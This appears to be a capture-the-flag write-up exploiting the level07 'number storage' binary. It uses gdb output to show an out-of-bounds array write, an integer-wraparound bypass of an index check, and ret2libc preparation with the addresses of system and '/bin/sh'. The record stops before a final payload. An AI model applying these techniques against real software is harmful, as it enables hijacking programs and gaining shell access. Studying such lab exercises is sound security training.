 After analyzing the program we see that we can use the `store_number` function to store a number in a array,
but the function does not check that the index given to store the number is in the array

Let's find the address of the buffer:

```
(gdb) b *0x080489a1       <====================== Breakpoint at the end of main
Breakpoint 4 at 0x80489a1
(gdb) r
Starting program: /home/users/level07/level07
...
Input command: store
 Number: 1234
 Index: 1
 Completed store command successfully

Breakpoint 4, 0x080489a1 in main ()
(gdb) i proc map
process 1688
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fdb000     0x3000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xfffdd000,0xffffdfff, 1234
0xffffd548
1 pattern found.
```

Here we have the pattern at `0xffffd548` which is at the index 1 (\* 4) of the buffer.
So the start of the buffer is at `0xffffd548` - 4 : `0xffffd544`

We convert the address in decimal :
`0xffffd544` ===> `4294956356`

So we will use the fact that we can write after the buffer to overwrite an address
We start to print addresses after our buffer:

Our buffer address + 400 to get the end of our buffer `4294956356 + 400 = 0xFFFFD6D4` in hex

```
(gdb) x/20x 0xffffd6d4
0xffffd6d4: 0x00000000 0x64616572 0x00000000 0x00000000
0xffffd6e4: 0x00000000 0x00000000 0x599ca500 0xf7feb620
0xffffd6f4: 0x00000000 0x08048a09 0xf7fceff4 0x00000000
0xffffd704: 0x00000000 0x00000000 0xf7e45513 0x00000001
0xffffd714: 0xffffd7a4 0xffffd7ac 0xf7fd3000 0x00000000
```

When we put a breakpoint at the end of the program, we see that the program go in a function called `__libc_start_main` before exiting.

```
(gdb) disas main
Dump of assembler code for function main:
 0x08048723 <+0>: push %ebp
...
   0x080489ee <+715>:   pop    %esi
   0x080489ef <+716>:   pop    %edi
   0x080489f0 <+717>:   pop    %ebp
   0x080489f1 <+718>:   ret
End of assembler dump.
(gdb) b *0x080489f1
Breakpoint 1 at 0x80489f1
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) ni
0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
(gdb) ni
0xf7e45516 in __libc_start_main () from /lib32/libc.so.6
(gdb) ni
[Inferior 1 (process 1707) exited normally]
```

We can see that we already have seen the address `0xf7e45513`. When we have printed the stack that came after the buffer

```
0xffffd704: 0x00000000 0x00000000 0xf7e45513 0x00000001
```

Let's try to overwrite `0xf7e4551` first we get the address of the value: `0xffffd704 + 8` ==> `4294956804 + 8 = 4294956812`

We want to get the difference between [address where to write] and [address of the buffer]
`4294956356 - 4294956812 = -456`

We divide 456 by 4 to counter the \* 4
`456 / 4 = 114`

Since there is protection that prevents us from storing at an index where the modulo 3 is equal to 0,
we can't overwrite the address by using the index 114, because `114 % 3 == 0`

So we will do an overflow:
To counter the \* 4 we do a
UINT_MAX / 4 : 4294967295 /4 ~~ 1073741824

1073741824 + 114
1073741938

Since the program `memset` the environment at the start of the program,
we can not put a shellcode in the environment

So we have to use a Ret2libc

System
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
4159090384

==
(gdb) find 0xf7e2c000,0xf7fcbfff, "/bin/sh"
0xf7f897ec
1 pattern found.
4160264172
